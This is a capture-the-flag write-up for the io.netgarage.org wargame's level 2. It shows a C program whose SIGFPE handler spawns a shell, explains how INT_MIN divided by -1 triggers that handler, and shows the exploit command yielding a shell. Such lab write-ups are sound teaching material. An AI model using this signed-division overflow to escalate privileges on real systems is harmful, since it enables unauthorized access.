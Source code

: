 # Preparation
From **previous level**, we have:
- Username: level2
- Password: ----------------- :)
- Ssh server: io.netgarage.org
# Start
`/levels/level02.c`
```cpp
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
    puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
            return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

The program will read your input in `argv[1]` and `argv[2]` then return the absolute value of the first one divided by second.
Our mission is to trigger `SIGFPE` to call the `catcher` function for us.
After searching GG, we have this answer on [Stack overflow](https://stackoverflow.com/questions/46378104/why-does-integer-division-by-1-negative-one-result-in-fpe/46378352#46378352)
So we need to pass `INT_MIN` and `-1` as argument. Why?
- Easiest way is to set divisor to 0 and trigger divide_by_zero exception but it's checked inside if statement
- `int` range in C vary in [$-2^{31}; 2^{31} - 1$]
- `INT_MIN` represents in 2's complement as `0b10000...0000`
- `INT_MIN` passed into `abs()` so it must be positive right? But `-INT_MIN > INT_MAX` so there's an undefined behavior as specified [here](https://www.cplusplus.com/reference/cstdlib/abs/). But what will it become? With 2's complement inverse, `0b10000...0000` -> `0b01111...1111` -> `0b10000...0000` = `INT_MIN` again... But this won't trigger `SIGFPE` because the operation inside `abs` can be optimized by compiler.
- If we divide the result above by `-1`, it's will act as above, but this time, the compiler cannot optimize this case and start to calculate a/-1 instead of -a as above -> Trigger `SIGFPE`

```bash
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```